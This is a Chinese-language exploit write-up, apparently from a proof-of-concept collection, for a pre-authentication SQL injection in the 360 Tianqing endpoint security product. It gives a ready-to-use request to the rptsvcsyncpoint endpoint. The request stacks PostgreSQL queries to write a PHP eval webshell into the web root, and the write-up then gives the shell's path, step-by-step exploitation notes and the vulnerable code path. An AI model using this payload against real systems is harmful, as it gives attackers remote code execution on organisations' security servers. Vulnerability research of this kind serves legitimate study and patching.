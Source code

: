 # 360天擎-前台sql注入
poc
---

    注入写shell:
    https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;-- 

利用过程:  
1\. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell  
2\. 通过注入点，创建一张表 O  
3\. 为 表O 添加一个新字段 T 并且写入shell内容  
4\. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)  
5\. 删除 表O 

    shell地址:
        https://192.168.24.196:8443/1.php
        POST
            1=phpinfo();

漏洞演示
----

![](360%E5%A4%A9%E6%93%8E-%E5%89%8D%E5%8F%B0sql%E6%B3%A8%E5%85%A5/4.png)

![](360%E5%A4%A9%E6%93%8E-%E5%89%8D%E5%8F%B0sql%E6%B3%A8%E5%85%A5/5.png)

![](360%E5%A4%A9%E6%93%8E-%E5%89%8D%E5%8F%B0sql%E6%B3%A8%E5%85%A5/6.png)

漏洞详情
----

天擎默认安装位置: C:\\Program Files (x86)\\360\\skylar6\\

首先打开：C:\\Program Files (x86)\\360\\skylar6\\www\\data\\adminlog\_path\_dict.json 该路径存放了大量的接口地址，并且可以该文件已列出是否开放接口

![](360%E5%A4%A9%E6%93%8E-%E5%89%8D%E5%8F%B0sql%E6%B3%A8%E5%85%A5/1.png)

那么重点先查看一下这些开放的端口即可

其中盯上了一个接口：api/dp/rptsvcsyncpoint

通过查看yii手册知道了路由走向，接口文件地址：C:\\Program Files (x86)\\360\\skylar6\\www\\application\\api\\controllers\\DpController.php

![](360%E5%A4%A9%E6%93%8E-%E5%89%8D%E5%8F%B0sql%E6%B3%A8%E5%85%A5/2.png)

进来以后看到它接收了 `$cc_id = $this->getParam("ccid")` 并且被 `getSyncPoint()` 方法接收

跟进去`getSyncPoint()`方法 地址为: C:\\Program Files (x86)\\360\\skylar6\\www\\source\\domain\\dao\\DataPortalDao.php

![](360%E5%A4%A9%E6%93%8E-%E5%89%8D%E5%8F%B0sql%E6%B3%A8%E5%85%A5/3.jpg)